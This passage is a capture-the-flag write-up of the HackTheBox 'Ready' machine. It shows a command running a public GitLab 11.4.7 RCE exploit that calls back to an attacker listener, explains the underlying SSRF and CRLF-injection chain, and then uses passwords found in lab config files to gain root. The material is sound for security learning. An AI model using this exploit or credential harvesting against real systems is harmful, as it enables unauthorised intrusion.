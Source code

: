 <img src="/assets/img/ChallengeVMs/Ready/img1.png"  style="width: 80%" />
</p>


There didn't appear to be any publicly available Projects or Groups, so I decided to look at the version which was `GitLab Community Edition 11.4.7`.  A simple Google search lead me to a publicly available RCE PoC: <https://github.com/ctrlsam/GitLab-11.4.7-RCE> which I exploited with the following command:

```bash
vagrant@ko:~/Desktop/HackTheBox/Ready/GitLab-11.4.7-RCE$ python3 exploit.py -u hotshoto -p hotshoto@test.com -g http://10.10.10.220 -l 10.10.14.82 -P 1234
[+] authenticity_token: fxQVMRlKcvnRZ2jXkG4b5kTm+LyeR/8iTFiw81uylzURDcuXan4efwJTmbqb+jBHInKj+TAMOWnC2FH9CUpMTg==
[+] Creating project with random name: project910
[+] Running Exploit
[+] Exploit completed successfully!
```
<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Ready/img2.png"  style="width: 80%" />
</p>

[LiveOverflow](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) have a really good breakdown of the vulnerability which exploits Server Side Request Forgery (SSRF) targeting redis for RCE via IPv6/IPv4 address embedding chained with Carriage Return and Line Feed (CRLF) injection in the `git://` protocol.

## Lateral Movement using Git
With access to the host, I began performing some basic enumeration as shown below:

<details></details>

Looking at the main directory, there was a file named `root_pass` which contained the following potential password `YG65407Bjqvv9A0a8Tm_7w`, however I was not able to elevate my privileges using the password. I loaded linpeas onto the machine and made mention of an `/opt/backup` directory. Within the directory, there is a `gitlab.rb` file which contained additional credentials: `gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"`. Using this password, I was able to authenticate to the root user:
